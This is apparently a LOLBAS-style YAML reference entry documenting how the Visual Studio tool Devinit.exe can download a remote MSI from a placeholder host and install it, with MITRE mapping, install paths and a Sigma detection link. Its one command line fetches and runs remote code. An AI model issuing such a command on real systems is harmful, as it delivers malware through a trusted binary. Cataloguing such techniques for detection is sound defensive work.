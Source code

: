 ```yaml
---
Name: Devinit.exe
Description: Visual Studio 2019 tool
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: devinit.exe run -t msi-install -i https://example.com/out.msi
    Description: Downloads an MSI file to C:\Windows\Installer and then installs it.
    Usecase: Executes code from a (remote) MSI file.
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: MSI
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_devinit_lolbin_usage.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1460815932402679809
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```


